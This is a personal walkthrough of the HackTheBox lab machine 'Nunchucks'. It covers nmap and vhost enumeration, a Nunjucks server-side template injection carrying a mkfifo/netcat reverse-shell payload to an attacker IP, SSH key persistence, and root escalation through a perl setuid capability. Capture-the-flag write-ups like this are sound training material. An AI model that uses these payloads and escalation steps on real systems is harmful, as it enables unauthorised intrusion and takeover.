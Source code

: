 # Nunchucks

This is my write-up for the box **Nunchucks** on HackTheBox: [https://app.hackthebox.com/machines/Nunchucks](https://app.hackthebox.com/machines/Nunchucks).

nmap scan: `nmap -T4 -A -Pn 10.10.11.122 -oN nunchucks.nmap`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-19 15:24 EST
Nmap scan report for 10.10.11.122
Host is up (0.054s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.08 seconds
```

I had a hard time connecting to the website. I then updated my **/etc/hosts** file and it worked!

![](<../../.gitbook/assets/image (358).png>)

I then ran a `git clone` for the [Seclists](https://github.com/danielmiessler/SecLists) GitHub repository. This repo has a lot of different files which come in handy from directory/password brute-forcing. I did get stuck at this point, so I then looked at the HackTheBox walk-through from the site. I learned about the **gobuster** option of **vhosts** which checks for subdomains on the system:

`gobuster vhost -u https://nunchucks.htb/ -w directory-list-2.3-medium.txt -k`

This led me to discover a **store.nunchucks.htb**. In order to visit the site, I had to add the site to my **/etc/hosts** file. I manually edited the file using **nano**, but the walk-through had a much easier solution for this:

`echo "10.10.11.122 nunchucks.htb" | sudo tee -a /etc/hosts`

We end up on this page:

![](<../../.gitbook/assets/image (597).png>)

I then ran **feroxbuster** on the website to see if there were directories that I can access:

![](<../../.gitbook/assets/image (647).png>)

I didn't get that much of help from this. The walk-through mentioned that there is a template injection vulnerability on this site. I tested out the example they gave:

![](<../../.gitbook/assets/image (560).png>)

The walk-through mentioned BurpSuite's Repeater function. I was then testing out what I can inject using that in order to find out what system is on the backend:

![](<../../.gitbook/assets/image (428) (1).png>)

Using the following image from [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect), I was able to assume that the backend system was either **Jinja2** or **Twig**:

![](<../../.gitbook/assets/image (356).png>)

![](<../../.gitbook/assets/image (594).png>)

After trying to get information from the system, I then went back to the write-up and found out that the server is using NodeJS Express. This is shown by the Response in Burp Suite:

![](<../../.gitbook/assets/image (561).png>)

The walk-through mentions how they found the website [http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine) by searching on Google. I searched on Google as well, but this website was not there in the results of a search. After this, the walk-through mentions running the following template injection (I modified it for my usage):

`{"email":"{{range.constructor("return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1234 >/tmp/f')")()}}@test.com"}`

I then got a reverse netcat connection:

![](<../../.gitbook/assets/image (470) (1).png>)

I then was able to read the user.txt file in david's home directory:

![](<../../.gitbook/assets/image (472).png>)

I then ran `script /dev/null bash` on recommendation from the walk-through. This gave me the shell (with the username and hostname). I then ran `getcap -r /`, again, on recommnedation of the write-up:

![](<../../.gitbook/assets/image (529).png>)

The walk-through recommended using GTFObin's **perl** page. It seemed that I was root, but was unable to read the root.txt file:

![](<../../.gitbook/assets/image (607).png>)

I was unable to get **nano** (text editor) to work as I wanted it to. I then added my own key to the **authorized\_keys** file that way I was able to get back into the machine. In order to do this I did the following (recommended by the write-up):

```
Local Machine:
run ssh-keygen (I entered defaults for everything)

Then copy the output of "id_rsa.pub" which is in your .ssh folder.

Remote Machine:
echo <id_rsa.pub> > ~/.ssh/authorized_keys

You can now SSH as david onto the machine
```

I was lost at this point, since the GTFObins commands were not getting me solid results. The write-up mentioned breaking down the `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` command to a script. This was the solution from the write-up:

![](<../../.gitbook/assets/image (434).png>)

Once you run `chmod +x` on the file, you can then get root access.

![](<../../.gitbook/assets/image (589).png>)

You then also have access to root.txt

![](<../../.gitbook/assets/image (440).png>)
